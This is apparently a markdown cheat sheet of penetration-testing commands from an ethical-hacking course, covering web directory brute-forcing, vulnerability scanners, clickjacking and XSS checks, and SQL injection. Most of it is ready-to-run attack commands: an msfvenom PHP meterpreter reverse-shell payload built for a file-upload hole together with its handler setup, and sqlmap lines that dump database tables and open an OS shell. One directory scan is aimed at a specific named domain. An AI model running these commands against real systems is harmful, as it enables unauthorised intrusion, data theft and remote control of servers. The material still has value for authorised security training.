 - ferox
```bash
feroxbuster -u http://atendata.net
```


##  Web Application Vulnerability Scanning

- nuclei

-  Vega (sqli, xss, disclosed sensitive information, and more): Windows
    - Scan > Start new scan > Select a scan target > Select modules

- wpscan (for wordpress)
```bash
wpscan --api-token token --url domain --plugins-detection aggressive --enumerate vp
```

- N-Stalker Web Application Security Scanner (Windows)
    - click the update button > update > click start > enter the web application url > choose scan policy (OWASP) > start session > start scan


## Identify Clickjacking Vulnerability
- ClickjackPoc
```bash
echo "domain" | tee domain.txt
python3 clickJackPoc.py -f domain.txt
```


##  Identifying XSS Vulnerabilities

- PwnXSS
```bash
python3 pwnxss.py -u domain
```

## File Upload Vulnerability

- msfvenom
```bash
msfvenom -p php/meterpreter/reverse_tcp lhost=IP lport=port -f raw > upload.php
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
```


##   Create a web shell
- weevely
----

# Module 15: SQLi (SQL Injection)
##   SQLi Attack 
- sqlamp
```bash
sqlmap -u "domain/page.php?parameter=1" --dbs
sqlmap -u "domain/page.php?parameter=1" -D database --tables
sqlmap -u "domain/page.php?parameter=1" -D database -T table --dump
sqlmap -u "domain/page.php?parameter=1" -D database -T table --os-shell
sqlmap -u "domain/page.php?parameter=1" --cookie="cookie" --dbs
sqlmap -u "domain/page.php?parameter=1" --crawl=3 --dbs
sqlmap -u "domain/page.php?parameter=1" --dbs --level=5 --risk=3
```
